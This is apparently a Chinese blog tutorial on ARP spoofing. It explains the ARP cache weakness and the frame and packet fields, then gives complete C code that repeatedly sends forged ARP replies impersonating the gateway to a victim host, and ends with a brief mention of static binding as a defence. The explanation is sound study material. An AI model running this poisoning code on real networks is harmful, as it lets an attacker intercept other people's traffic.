


### arp欺骗
在以太网内传输数据包是依靠mac地址的，然后怎么用ip地址查询mac地址就是要靠arp协议。为了减少arp请求的次数，所有支持tcp/ip协议栈的主机都会包含一个arp缓存，这个缓存中包含了ip地址和mac地址的对应关系。但是ARP协议对应的ARP缓存表维护机制中存在不完善的地方，当主机收到一个ARP的应答包后，它并不验证自己是否发送过这个ARP请求，而是直接将应答包里的MAC地址与IP对应的关系替换掉原有的ARP缓存表里的相应信息。这就是导致arp欺骗的根本原因。



欺骗的方式一般是两种：欺骗源发送arp响应报文到网关，报文的内容是IP：10.10.10.3的mac地址是BB-BB-BB-BB-BB-BB。这样欺骗网关，让网关以为是被欺骗的主机。还有就是欺骗源发送arp响应报文到被欺骗主机，报文的内容是IP：10.10.10.1的mac地址是BB-BB-BB-BB-BB-BB这样来伪装自己是网关


以太网帧的结构：


+ mac destination ——6字节，以太网目的地址，目的地址全为1的特殊地址是广播地址
+ mac source ——6字节，以太网源地址
+ ether type ——2字节，帧类型，payload装载的数据的类型，对于arp协议是0x0806，对于RARP协议，该字段为0x8035
+ payload ——46～1500字节，即存放的协议

arp协议的字段结构：


+ hardware type——2字节 硬件类型：表示硬件地址的类型。值为1时表示以太网地址。也就是说ARP协议不仅仅应用于以太网协议，还可以支持别的链路层协议。
+ protocol type——2字节 协议类型：表示要映射的协议地址类型。值为0x0800时表示IP协议。
+ hardware address length——1字节 硬件地址长度：与硬件类型对应的硬件地址的长度，以字节为单位。如果是以太网，则是6字节（MAC长度）。
+ protocol address length——1字节 协议地址长度：与协议类型对应的协议地址长度，以字节为单位。如果是IP协议，则是4字节（IP地址长度）。
+ operation——2字节 操作类型（op）：四中操作类型。ARP请求（1），ARP应答（2），RARP请求（3），RARP应答（4）。
+ sender hardware address——发送端硬件地址：如果是以太网，则是源主机以太网地址，此处和以太网头中的源地址对应。
+ sender protocol address——发送端协议地址：如果是IP协议，则表示源主机的IP地址。
+ target hardware address——目的端硬件地址：如果是以太网，则是目的以太网地址，和以太网头中的目的地址对应。
+ target protocol address——目的端协议地址：如果是IP协议，则表示源主机要请求硬件地址的IP地址。

对应ARP请求包来说，目的端的硬件地址字段无须填充，其他字段都需要填充。对于ARP回复包来说，所有字段都需要填充。

下面的c代码构造了一个arp包，然后发送请求。可以用于arp欺骗攻击。
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <net/ethernet.h>
#include <netinet/if_ether.h>
#include <arpa/inet.h>
#include <netpacket/packet.h>
#include <net/if.h>
 
// const items
const char INTERFACE[] = "eth0";
const u_char TARGET_MAC[] = {0xb8,0x88,0xe3,0x99,0x95,0xbe}; //victim's mac
const u_char SOURCE_MAC[] = {0x48,0x4d,0x7e,0xfb,0x01,0x38}; //attacker's mac
const u_char TARGET_IP[] = {100,66,2,100};                    //victim's ip
const u_char SOURCE_IP[] = {100,66,0,1};                    //gateway's ip, 这里很重要，因为我们要假装是网关，所以用网关的ip
 
// main function
int main(int argc, char **argv) 
{
    int soc;
    u_char frame[42];        //total length of ethernet head plus arp packet is 42 octets
 
 
    // create socket -- 创建socket(套接字)
    soc = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ARP));
    if(soc == -1) 
	{
        perror("socket() failed");
        exit(EXIT_FAILURE);
    }
    printf("* Socket created.\n");
 
    
    // create arp frame -- 构建arp帧，其实就是将以太网头部和arp包组合，存入frame[]，前14字节为以太网头，后28字节为arp包
    // 这里使用了2个预先定义好的struct，很方便，不需要我们自己纯手工构建arp帧了
    struct ether_header ehead;
    struct ether_arp earp;
 
    memcpy(ehead.ether_dhost, TARGET_MAC, ETHER_ADDR_LEN);
    memcpy(ehead.ether_shost, SOURCE_MAC, ETHER_ADDR_LEN);
    ehead.ether_type = htons(ETHERTYPE_ARP);
 
    earp.arp_hrd = htons(ARPHRD_ETHER);
    earp.arp_pro = htons(ETHERTYPE_IP);
    earp.arp_hln = ETHER_ADDR_LEN;
    earp.arp_pln = 4;
    earp.arp_op = htons(ARPOP_REPLY);
    memcpy(earp.arp_sha, SOURCE_MAC, ETHER_ADDR_LEN);
    memcpy(earp.arp_spa, SOURCE_IP, 4);
    memcpy(earp.arp_tha, TARGET_MAC, ETHER_ADDR_LEN);
    memcpy(earp.arp_tpa, TARGET_IP, 4);
 
    memcpy(frame, &ehead, sizeof(ehead));
    memcpy(frame + sizeof(ehead), &earp, sizeof(earp));
    printf("* ARP frame created.\n");
 
 
    // make sockaddr_ll ready for sendto() function -- 用作sendto()函数中的参数，此处主要是指定一个网络接口
    struct sockaddr_ll destaddr;
    destaddr.sll_family = AF_PACKET;
    if((destaddr.sll_ifindex = if_nametoindex(INTERFACE)) == 0) 
	{
        perror("if_nametoindex() failed");
        exit(EXIT_FAILURE);
    }
    destaddr.sll_halen = htons(ETHER_ADDR_LEN);
    printf("* struct sockaddr_ll destaddr ready.\n");
 
 
	while(1)
	{
		// send packet to poison -- 将我们之前伪造好的arp响应包发送出去
		if(sendto(soc, frame, sizeof(frame), 0, (struct sockaddr *)&destaddr, sizeof(destaddr)) == -1) 
		{
			perror("sendto() failed");
			exit(EXIT_FAILURE);
		}
		printf("* Packet sent.\n");
	}
 
 
    // close socket -- 完成后关闭socket
    close(soc);
    printf("* Socket closed.\n");
 
    return 0;
}

```
对于防止arp攻击的方式，很多情况下是一个静态的绑定，在网关和主机进行双向的绑定。但是这个方法对于动态分配ip地址的情况那就很头疼。
**参考文献**
[代码来自](https://lngost.github.io/pages/articles/tech/ARP-Packet-By-c/arp-packet-by-c.html)
[arp协议解释来自](http://www.cnblogs.com/luckyxiaoxuan/p/3395527.html)


